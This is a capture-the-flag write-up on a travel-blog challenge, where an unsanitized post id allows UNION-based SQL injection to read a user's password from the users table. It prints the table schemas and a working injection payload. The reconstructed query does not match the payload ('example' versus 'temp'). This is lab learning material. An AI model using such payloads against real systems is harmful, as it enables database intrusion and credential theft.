



## Investigation

The problem described a simple travel blog that someone used to blog about the places they've been to. 
They gave us the code for this problem and I've included it here if you wanted to try it yourself. 
Check it out in Local Code.

On opening up the site you're presented with this landing page.


You can click on individual places and see that they open up a new page about them.


As usual I started by looking for the flag in the code and found that it was a user in the database.



The problem then is just getting the flagbearer user from the user table. Note that I can just check the id of the user because the
flagbearer user has id=1.

Going through the routes, you see that they get the id from the request. This id is then plugged directly into a SQL
statement to get that post from the database. 



There's no sanitization so this is clearly a SQL injection problem. The only wrinkle is that this is getting an entry from the posts table while I'm trying to get an entry in the users table.

## Solution

Getting information from another table clearly calls for a UNION. I needed to get the password of the flagbearer user. To UNION two
SQL select statements together both statements need to have the same number of columns. Their SQL statement gets everything from 
posts, which has 4 columns. The users table though has 3 columns.

posts Table:

```
CREATE TABLE `posts` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `title` varchar(255) NOT NULL,
  `thumbnail` varchar(255) NOT NULL,
  `content` text NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=6 DEFAULT CHARSET=utf8mb4;
```

users Table:

```
CREATE TABLE `users` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `username` varchar(255) NOT NULL,
  `password` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=utf8mb4;
```

All I needed then was an extra temp column so SQL can union both table together. I ended up setting the id to the following SQL
statment:

```
9' UNION SELECT *,'temp' FROM users WHERE id='1
```

This makes the whole SQL statement the server processes into:

```
SELECT * FROM posts WHERE id='9' UNION SELECT *,'example' FROM users WHERE id='1'
```

This makes the page get the user and they end up trying to use the password as the background image. Looking at the response gets
the flag.



This was an interesting addition on a standard SQL injection. It would've been interesting solving this problem without seeing
exactly where the SQL injection happens. Obviously most real life hackers don't have the full source code so solving it without that
would have given more of an insight into how they figure out forming a SQL injection attack.